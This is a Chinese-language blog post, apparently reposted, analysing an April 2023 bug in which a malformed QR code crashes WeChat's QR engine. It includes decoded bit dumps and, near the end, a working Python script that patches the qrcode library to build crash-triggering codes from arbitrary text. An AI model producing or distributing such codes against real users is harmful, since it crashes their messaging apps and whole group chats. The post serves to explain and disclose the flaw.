 ```yaml
---
title: The reason for the QR code crash
description: 扫码崩溃的原因，附源码分析
date: 2023-04-25T13:00:00.000+00:00
lang: zh
duration: 10min
---
```

> 原文转自:[扫码崩溃的原因，附源码分析](https://mp.weixin.qq.com/s/JKDOTIvJqGVPLmXP3BK5rQ)

**近日**，网传微信识别上方二维码就会出现闪退BUG，我也也忍不住尝试了一下，果然，一识别该二维码微信立马就出现了闪退的现象；且会出现“微信运行异常，建议前往软件商店更新至最新版本”的提示。

随后，我又对该二维码进行了转发测试，亦是如此，将二维码转发给好友后微信又出现闪退情况；在手机微信中无需识别，仅仅是点击该二维码，微信就会出现闪退；

在微信电脑端，小编测试发现苹果电脑点击该二维码同样会出现闪退现象，但是 Windows 10 测试则正常无闪退。

目前该二维码除了导致闪退外未发现其他副作用。

对于此次闪退事件，有网友发文解释称：目前微信闪退崩溃是因为 OCR 识别系统出现了内存崩溃导致的，这个图片导致了微信内存泄漏，所以会闪退崩溃。闪退问题不会涉及个人隐私问题和封号和资金泄漏问题，目前该功能已经在加急加班的修复中。
![知情人士截图](https://i.328888.xyz/2023/04/25/ioT4Td.md.jpeg)

不过上述对于微信闪退的解释也只是网友观点，截止发稿，腾讯官方还未公开回应。前面有提到，由于这张二维码图片导致内存泄漏，进而引发微信闪退。而造成此问题的根源是 “微信二维码引擎”——它会自动识别聊天列表中的二维码

当用户打开聊天列表，微信二维码引擎识别到这张二维码的时候出现了空指针异常，导致二维码模块崩溃

最终 “祸及” 整个微信客户端

另外，不只是微信，其他腾讯系的软件如果使用了同样的二维码引擎，应该都有这个问题。参考此issue的反馈
[issue](https://github.com/opencv/opencv_contrib/issues/3478)
[![ioT2ep.md.png](https://i.328888.xyz/2023/04/25/ioT2ep.md.png)](https://imgloc.com/i/ioT2ep)

从公开的资料可知，该引擎已在 2021 年开源，并合并到了 OpenCV。
[开源地址](https://github.com/WeChatCV)
OpenCV 全称为 Open Source Computer Vision Library，是一个跨平台的开源计算机视觉和机器学习软件库，可用于开发实时的图像处理、计算机视觉以及模式识别程序。

根据开发者的分析，引发微信闪退的二维码属于 “畸形二维码”，这类二维码包含的错误数据块会导致微信二维码模块中的 libqbar.so 崩溃，进而引发软件闪退。

----
## 下面内容来自开发者的分析：


这是一张用微信扫描就会 crash 的二维码，应该是微信 OCR 的实现有问题，以及如果发在群聊里可能会导致群聊的人都闪退（因为微信会自动识别二维码）
UPDATE: 腾讯系的软件应该都有这个问题
感觉主要出锅的地方在：
```shell
[0100] [00000001] []
Mode Indicator : 8-bit Mode (0100)
Character Count Indicator : 1
Decoded data :
```

因为队友说似乎是 null deref，直接遍历解码到后期的时候发现了以下的问题，填充和 RS 在这样的扫描下直接被吃掉了：
```shell
{value: '00000001', type: 'Char. count indicator', decoded: 1, modules: Array(8)}
{value: '10011111', type: 'Message data', decoded: '\x9F', modules: Array(8)}
{value: '0000', type: 'Mode indicator', decoded: 'Terminator', modules: Array(4)}
{value: '0010', type: 'Mode indicator', decoded: 'Alphanumeric mode', modules: Array(4)}
{value: '100111001', type: 'Char. count indicator', decoded: 313, modules: Array(9)}
{value: '01100111100', type: 'Message data', decoded: 'II', modules: Array(11)}
{value: '01100010011', type: 'Message data', decoded: 'HM', modules: Array(11)}
{value: '10100001110', type: 'Message data', decoded: 'SY', modules: Array(11)}
{value: '00110010000', type: 'Message data', decoded: '8+', modules: Array(11)}
{value: '01110011111', type: 'Message data', decoded: 'KR', modules: Array(11)}
{value: '01101010111', type: 'Message data', decoded: 'J0', modules: Array(11)}
{value: '01110100010', type: 'Message data', decoded: 'KU', modules: Array(11)}
{value: '10000011011', type: 'Message data', decoded: 'NG', modules: Array(11)}
{value: '11101010111', type: 'Message data', decoded: '-Y', modules: Array(11)}
{value: '1101', type: 'Message data', decoded: '0D', modules: Array(4)}
{value: '', type: 'Message data', decoded: NaN, modules: Array(0)}
{value: '', type: 'Message data', decoded: NaN, modules: Array(0)}
```
提取出的数据来看，在到达最后一个 8-bit Mode 后是一个不可见字符 \x9f 和正常的终止符号，但在之后本应该是 padding 的 11101100 和 11101100 却不见了踪迹，后续的 block 恰好被解析为了 Alphanumeric mode，长度块标准为 9 bit，并且读取出其长度为 313，导致后续的数据被解析为了奇怪的内容，并且直接开始越界解析。

但是尝试复现并未成功构造一个可以被微信复现的二维码，并且 qrazybox 也被这样的长度标识欺骗了，但是在上面的例子里并没有，似乎整个问题比想象的复杂：
```shell
Final data bits :
00101111111110000101110100010001010001110011000010100000111011000001000111101100000100011110110000010001111011000001000111101100
[0010] [111111111] [0000101110100010001010001110011000010100000111011000001000111101100000100011110110000010001111011000001000111101100]
Mode Indicator : Alphanumeric Mode (0010)
Character Count Indicator : 511
Decoded data : 2333AA76%J5L1QVFA.380Cundefinedundefinedundefinedundefinedundefined……
Final Decoded string : 2333AA76%J5L1QVFA.380C
```
忽略了一个核心问题，这个二维码的数据区已经被完全填满（224 bit），解码器可能会因为遇到 padding pattern 而提前 break，打算再去构造一下。
构造成功了，成功让微信崩溃了！几个要点：
1. 数据需要绝对无填充，不可以出现 padding pattern
2. 最后一个 block 的记录长度要尽可能的长，与什么模式无关

理论上只要能够找到合适的 data block 组合，恰好填充满二维码的容量，并在最后一个 0 长 block 中写入一个越界的长度，并保证上述所有数据 RS 纠错码生成正确，就可以实现崩溃了。
附上复现用的代码，可根据任意文本内容构造畸形二维码：
```python
import qrcode
from qrcode.util import QRData, MODE_8BIT_BYTE

NUM_BLOCKS = [19, 34, 55, 80, 108, 136, 156, 194, 232]

def tencent_crash_qrcode(message: str, filename='crash.png'):

    def hack_put(self, num, length):
        if num == 0:
            num = 1
        for i in range(length):
            self.put_bit(((num >> (length - i - 1)) & 1) == 1)
    
    data = message.encode('utf-8')
    data_len = len(data)

    version = 1
    while version <= len(NUM_BLOCKS) and data_len + 3 > NUM_BLOCKS[version-1]:
        version += 1
    if version > len(NUM_BLOCKS):
        raise Exception('message too long')

    data += b' ' * (NUM_BLOCKS[version-1] - data_len - 3)

    print(data_len, version)
    qr = qrcode.QRCode(version, qrcode.constants.ERROR_CORRECT_L)
    
    comm_data = QRData(data, MODE_8BIT_BYTE)
    hack_data = QRData(b'', MODE_8BIT_BYTE)

    qr.add_data(comm_data, 0)
    qr.add_data(hack_data, 0)

    original_put = qrcode.util.BitBuffer.put
    qrcode.util.BitBuffer.put = hack_put
    qr.make_image().save(filename)
    qrcode.util.BitBuffer.put = original_put

tencent_crash_qrcode('KFCVW50')
```
**最后**，附上一个通过脚本生成的畸形二维码。
[![ioTjB3.th.png](https://i.328888.xyz/2023/04/25/ioTjB3.th.png)](https://imgloc.com/i/ioTjB3)